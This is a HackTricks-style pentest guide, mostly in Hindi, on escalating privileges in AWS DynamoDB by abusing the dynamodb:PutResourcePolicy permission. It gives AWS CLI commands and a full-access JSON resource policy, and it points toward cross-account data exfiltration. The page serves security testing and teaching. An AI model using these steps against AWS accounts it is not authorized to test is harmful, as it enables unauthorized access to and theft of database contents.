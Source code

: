 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

मार्च 2024 से, AWS ने DynamoDB के लिए *resource based policies* पेश की हैं ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/))।

इसलिए, यदि आपके पास किसी table के लिए `dynamodb:PutResourcePolicy` है, तो आप स्वयं को या किसी अन्य principal को उस table का पूर्ण एक्सेस दे सकते हैं।

किसी भी random principal को `dynamodb:PutResourcePolicy` देना अक्सर दुर्घटना से होता है, जब admins समझते हैं कि `dynamodb:Put*` देने से principal केवल database में items डाल पाएगा — या जब उन्होंने वह permissionset March 2024 से पहले दे दिया हो...

आदर्श रूप में, आपके पास `dynamodb:GetResourcePolicy` भी होना चाहिए, ताकि आप अन्य संभावित रूप से महत्वपूर्ण permissions को overwrite न करें, बल्कि केवल आवश्यक अतिरिक्त permissions जोड़ें:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
यदि आप वर्तमान policy प्राप्त नहीं कर पा रहे हैं, तो बस यह वाला उपयोग करें जो आपके principal को table पर पूरा एक्सेस देता है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
यदि आपको इसे कस्टमाइज़ करने की आवश्यकता है, तो यहाँ सभी संभावित DynamoDB actions की सूची है: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). और यहाँ उन सभी actions की सूची है जिन्हें resource based policy के माध्यम से अनुमति दी जा सकती है *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

अब, policy document `policy.json` तैयार होने पर, resource policy डालें:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
अब आपके पास आवश्यक permissions होने चाहिए।

### Post Exploitation

मेरी जानकारी के अनुसार **केवल कुछ AWS `dynamodb` permissions होने की स्थिति में AWS में privileges escalate करने का कोई अन्य सीधा तरीका नहीं है**। आप tables से **संवेदनशील जानकारी पढ़** सकते हैं (जो AWS credentials रख सकती है) और tables पर **जानकारी लिख** सकते हैं (जो अन्य vulnerabilities को ट्रिगर कर सकती हैं, जैसे lambda code injections...) लेकिन ये सभी विकल्प पहले से ही **DynamoDB Post Exploitation page** में शामिल किए गए हैं:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: data Streams का दुरुपयोग करके डेटा पढ़ना

{{#include ../../../../banners/hacktricks-training.md}}

